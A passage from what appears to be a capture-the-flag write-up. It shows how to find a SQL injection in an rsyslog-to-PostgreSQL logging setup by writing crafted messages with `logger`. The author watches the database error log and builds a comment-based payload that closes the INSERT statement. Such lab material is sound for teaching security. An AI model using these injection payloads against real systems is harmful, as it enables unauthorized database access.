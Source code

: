 ### Test Log Writing

So `local7.info` is a testing log I can write to with `logger`.

I can test this:

```

roy@zetta:/etc/rsyslog.d$ logger -p local7.info "test"

```

I get no feedback. And since I can’t see the database, I don’t know if that worked. But roy is a member of the `adm` group, so I can read logs. I’ll connect another SSH session and use one to write logs, and another to `tail -f postgresql-11-main.log` to see new output. This log starts empty, and only failed queries will go in. Now seems like a good time to check for SQLi. I’ll add a `'` to the end of my message:

```

roy@zetta:/var/log/postgresql$ logger -p local7.info "test'"

```

```

roy@zetta:/var/log/postgresql$ tail -f postgresql-11-main.log
2019-09-01 13:47:56.585 EDT [13852] postgres@syslog ERROR:  syntax error at or near "2019" at character 75
2019-09-01 13:47:56.585 EDT [13852] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' test\'','2019-09-01 17:47:56')
2019-09-01 13:47:56.594 EDT [15468] postgres@syslog ERROR:  syntax error at or near "2019" at character 75
2019-09-01 13:47:56.594 EDT [15468] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' test\'','2019-09-01 17:47:56')
2019-09-01 13:47:56.599 EDT [15469] postgres@syslog WARNING:  there is no transaction in progress

```

It worked!

### SQLI - POC

To get this to an injection, I need to try to get a query that is accepted. I notice that syslog is escaping my `'` with a `\`, but then `postgres` is seeing it as a string, so the next `'` breaks it. I’ll try to use comments to get rid of that issue. Eventually I find a query that doesn’t generate a log:

```

roy@zetta:/var/log/postgresql$ logger -p local7.info "test', null)-- -"

```

If I put this into the template, it would look like:

```

INSERT INTO syslog_lines (message, devicereportedtime) values ('test', null)-- -','[date]');

```
